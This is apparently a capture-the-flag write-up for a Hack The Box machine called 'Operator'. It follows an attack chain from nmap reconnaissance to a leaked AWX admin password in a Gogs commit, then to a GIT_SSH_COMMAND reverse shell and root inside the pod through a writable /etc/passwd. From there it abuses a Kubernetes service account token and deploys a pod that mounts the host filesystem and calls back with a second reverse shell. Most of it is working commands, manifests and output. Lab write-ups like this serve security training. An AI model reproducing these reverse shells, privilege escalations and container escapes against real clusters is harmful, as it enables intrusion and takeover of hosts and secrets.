




# [Cloud] Operator

We are provided an IP address. To the nmap-mobile:

```
$ nmap -A -T4 -Pn 10.129.227.178
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-16 00:22 +08
Nmap scan report for 10.129.227.178
Host is up (0.52s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp   open  http          Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MonkeyLeaks
3000/tcp open  ppp?
| fingerprint-strings:
|   GenericLines, Help, RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=c7618bc52d746f83; Path=/; HttpOnly
|     Set-Cookie: _csrf=RoO6Pz_yEVSRzi24uVI08j9UX2g6MTY1NzkwMjUxMTU1MTYzMTc3MQ; Path=/; Domain=operator.htb; Expires=Sat, 16 Jul 2022 16:28:31 GMT; HttpOnly
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     Date: Fri, 15 Jul 2022 16:28:31 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="RoO6Pz_yEVSRzi24uVI08j9UX2g6MTY1NzkwMjUxMTU1MT
|   HTTPOptions:
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     X-Content-Type-Options: nosniff
|     Date: Fri, 15 Jul 2022 16:28:36 GMT
|     Content-Length: 108
|_    template: base/footer:15:47: executing "base/footer" at <.PageStartTime>: invalid value; expected time.Time
8443/tcp open  ssl/https-alt
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 401 Unauthorized
|     Audit-Id: 946cffef-618e-473e-a51c-ea8de041631e
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     Date: Fri, 15 Jul 2022 16:28:37 GMT
|     Content-Length: 129
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 401 Unauthorized
|     Audit-Id: 1dda6f56-3bc4-4dcb-ac74-7f615c88a105
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     Date: Fri, 15 Jul 2022 16:28:37 GMT
|     Content-Length: 129
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}
|   HTTPOptions:
|     HTTP/1.0 401 Unauthorized
|     Audit-Id: 2cfd3886-dc54-4e8c-976a-c506c03565d5
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     Date: Fri, 15 Jul 2022 16:28:37 GMT
|     Content-Length: 129
|_    {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}
|_http-title: Site doesn't have a title (application/json).
| ssl-cert: Subject: commonName=k3s/organizationName=k3s
| Subject Alternative Name: DNS:kubernetes, DNS:kubernetes.default, DNS:kubernetes.default.svc, DNS:kubernetes.default.svc.cluster.local, DNS:localhost, DNS:operator, IP
Address:10.129.227.178, IP Address:10.129.227.232, IP Address:10.129.227.241, IP Address:10.43.0.1, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2022-07-06T17:28:27
|_Not valid after:  2023-07-15T16:21:44
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

We notice that this server is running a Kubernetes app on port 8443, and a [GOGS](https://gogs.io/) server on port 3000.

Let's register on the GOGS server, and browse the repos. From the user list, we can see the comments of each user. We notice a hidden repo mentioned there



Visiting that repo http://operator.htb:3000/MonkeyBusiness/awx-k8s-config, we get an [AWX](https://github.com/ansible/awx) password from the list of commits

http://operator.htb:3000/MonkeyBusiness/awx-k8s-config/commit/ddee38cef444421bce6ac66509377229c09659fc

```
+---

+apiVersion: v1
+kind: Secret
+metadata:
+  name: monkey-business-admin-password
+  namespace: awx
+stringData:
+  password: XRxpw33WnfY3MTgQ
```

From the public repo, we get the port on which AWX is running

```
              nodeport_port:
                default: 30080
```

Let’s login on AWX with what we found



Being an Admin on AWX, we can add a repo:

```
$ docker run -i --rm -p 2222:22 -v /Users/pierre.gaulon/Downloads/ctf/operator/git/keys:/git-server/keys -v /Users/pierre.gaulon/Downloads/ctf/operator/git/repos:/git-server/repos 
jkarlos/git-server-docker
```

and override the `git clone` command to get a reverse shell:

```
{
  "GIT_SSH_COMMAND": "bash -i >& /dev/tcp/10.10.14.30/4444 0>&1 #"
}
```



Running the Repo sync, we get our shell from AWX runner pod:

```
$ nc -lnv 4444
bash-4.4$ id
id
uid=1000(runner) gid=0(root) groups=0(root)
```

We also notice that `/etc/passwd` is writable by the root group:

```
bash-4.4$ ls -lah /etc/passwd
ls -lah /etc/passwd
-rw-rw-r-- 1 root root 75 Jul 15 16:21 /etc/passwd
```

We can exploit it to be root inside the AWX runner container:

```
bash-4.4$ echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:/root:/root:/bin/bash' >> /etc/passwd
bash-4.4$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
runner:x:1000:0:,,,:/home/runner:/bin/bash
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:/root:/root:/bin/bash
bash-4.4$ su new
su new
Password: 123
id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty; pty.spawn("/bin/bash")'
[root@monkey-business-58c9c77bb5-wjrcp home]# id
id
uid=0(root) gid=0(root) groups=0(root)
```

That is not particularly helpful, let’s try harder.
Since we are running on K8S, we can check if the pod has access to a K8S service account:

```
[root@monkey-business-58c9c77bb5-wjrcp tmp]# cat /run/secrets/kubernetes.io/serviceaccount/token ; echo
```

Nice!

We can either interact with the Kubernetes Control Plane API with `curl`, or upload the `kubectl` binary, corresponding to the server version. Let’s start with `curl`:

```
bash-4.4$ export toktok=$(cat /run/secrets/kubernetes.io/serviceaccount/token)
bash-4.4$ curl -kH "Authorization: Bearer $toktok" https://10.43.0.1/api/v1/namespaces/awx/pods ; echo
```

This gives us the list of the pods running in the `awx` namespace.

Now for simplicity, we download `kubectl` on the attacker machine, run a python webserver to download it from the victim pod.

```
curl -skH "Authorization: Bearer $toktok" https://10.43.0.1/version
{
  "major": "1",
  "minor": "23",
  "gitVersion": "v1.23.8+k3s1",
  "gitCommit": "53f2d4e7d80c09a7db1858e3f4e7ddfa13256c45",
  "gitTreeState": "clean",
  "buildDate": "2022-06-27T21:48:01Z",
  "goVersion": "go1.17.5",
  "compiler": "gc",
  "platform": "linux/amd64"
}

$ wget https://s3.us-west-2.amazonaws.com/amazon-eks/1.22.6/2022-03-09/bin/linux/amd64/kubectl
$ python -m http.server 8080

$ curl -o kubectl http://10.10.14.30:8080/kubectl
```

Great, we are all setup to explore what our ServiceAccount token can do.

```
bash-4.4$ ./kubectl auth can-i --list
./kubectl auth can-i --list
Resources                                       Non-Resource URLs                     Resource Names   Verbs
pods/attach                                     []                                    []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
secrets                                         []                                    []               [get create delete]
pods                                            []                                    []               [get list watch create update patch delete]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
pods/log                                        []                                    []               [get]
```

We can create `pods`. If we create one that mounts the host path, and gives us a reverse shell, we can access to the underlying host filesystem. Let’s do that!

```
$ cat attacker.yaml
apiVersion: v1
kind: Pod
metadata:
  name: command0
  namespace: awx
spec:
  volumes:
  - name: host-fs
    hostPath:
      path: /
  containers:
  - name: command
    image: quay.io/centos/centos:stream8
    command: ["/bin/sh"]
    args: ["-c", "printenv; bash -i >& /dev/tcp/10.10.14.30/4445 0>&1"]
    volumeMounts:
      - name: host-fs
        mountPath: /root
  restartPolicy: Never
```

Let’s download it from the victim pod:

```
$ curl -so /tmp/attacker.yaml http://10.10.14.30:8080/attacker.yaml
$ ./kubectl apply -f /tmp/attacker.yaml
```

And get our reverse shell on port 4445:

```
$ nc -lnv 4445
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Since we mounted the host’s `/` to our pod’s `/root`, let’s explore `/root` from that new pod:

```
bash-4.4# cd /root
cd /root
bash-4.4# ls
ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
bash-4.4# cd root
cd root
bash-4.4# ls
ls
flag.txt
snap
bash-4.4# cat flag.txt
cat flag.txt
HTB{ph4LL_7HRU_d1M3n510N_0f_p0d5}
```



Nice, we get the flag from the host filesystem, from our pod `/root/root/flag.txt`:

```
HTB{ph4LL_7HRU_d1M3n510N_0f_p0d5}
```
